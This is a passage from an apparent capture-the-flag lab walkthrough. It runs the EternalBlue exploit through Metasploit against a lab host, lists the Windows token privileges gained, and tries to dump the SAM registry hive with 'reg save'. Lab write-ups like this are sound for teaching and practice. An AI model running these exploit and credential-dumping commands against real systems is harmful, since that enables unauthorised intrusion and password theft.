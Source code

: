 > `exploit/windows/smb/ms17_010_psexec` will not work!

```bash
sudo msfconsole
search eternal blue
use exploit/windows/smb/ms17_010_eternalblue
set lhost tun0
set rhosts 10.10.12.45
run
```

It is normal to fail several times

Waited for `3+` minutes to succeed

![](../../attachment/29b8e3892ab0fb8d6723796b94467d02.png)

## Escalate
---

### Check Token Privileges

I have few privilege tokens by default

```bash
C:\ProgramData>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeTcbPrivilege                Act as part of the operating system       Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled

C:\ProgramData>reg save hklm\sam sam
reg save hklm\sam sam
ERROR: A required privilege is not held by the client.
```
